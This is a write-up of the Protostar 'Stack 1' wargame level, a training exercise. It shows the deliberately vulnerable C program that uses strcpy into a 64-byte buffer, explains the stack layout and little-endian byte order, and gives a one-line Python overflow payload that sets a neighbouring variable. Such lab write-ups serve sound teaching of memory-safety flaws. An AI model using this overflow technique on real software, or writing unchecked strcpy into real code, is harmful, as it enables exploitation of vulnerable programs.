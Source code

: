 # Protostar - Stack 1

### About ###

>This level looks at the concept of modifying variables to specific values in the program, and > how the variables are laid out in memory.
>
> This level is at `/opt/protostar/bin/stack1`
>
> **Hints :**
>
- If you are unfamiliar with the hexadecimal being displayed, “man ascii” is your friend.
- Protostar is little endian

### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

### Solution ###

In this exercise, we need to change the variable `modified` to a specific value: `0x61626364` or `0x64636261` in little endian.

`buffer` still is 64 characters long and followed by `modified`. Therefore, if we give as parameter to the program the string formed by 64 `A` followed by `0x61626364`, the stack frame will look like:


`main` Stack Frame variables | `main` Stack Frame values
---:|:---
buffer[0:3] | `0x41414141`
buffer[4:7] | `0x41414141`
... | `0x41414141`
buffer[60:63] | `0x41414141`
modified | `0x64636261`
Saved ebp | `0xbffff7f8`

And if we apply this reasoning to the actual program, we are able to correctly change the value of `modified`.

```
user@protostar:/tmp$ stack1 $(python -c "print 'A'*64+'\x64\x63\x62\x61'")
you have correctly got the variable to the right value
```